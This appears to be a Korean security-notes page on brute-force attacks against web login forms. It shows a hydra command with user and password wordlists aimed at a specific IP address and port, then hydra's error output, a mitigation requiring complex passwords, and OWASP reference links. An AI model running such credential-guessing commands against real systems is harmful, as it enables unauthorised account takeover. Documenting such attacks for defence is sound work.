 ## 무차별 대입 공격
![image](https://github.com/user-attachments/assets/3a9ed717-49d2-4271-bd40-f59f06f166fb)

![image](https://github.com/user-attachments/assets/26c23b16-ace3-4b29-bca4-0d9d5f4876db)

```
hydra 190.13.132.90 -s 8081 -V -L /home/nicolas/Escritorio/USER -P /home/nicolas/Escritorio/passwords.txt http-post-form "/user=^USER^&password=^PASS^=Ingresar&culture=es-CL&mobile=0&clasica=1:F=Usuario inexistente:H=Cookie: stwa2={"lang":"es-CL"}"
Hydra v8.7-dev (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2018-04-29 14:34:51
[ERROR] the variables argument needs at least the strings ^USER^, ^PASS^, ^USER64^ or ^PASS64^: F=Usuario inexistente
```
해결방안 : 복잡한 암호(대/소문자, 특수 문자 포함 10자 이상 등)를 강제하는 로직을 구현     
## More Information.
[# BruteForce
BruteForce
](https://owasp.org/www-community/attacks/Brute_force_attack
http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password
http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html
)
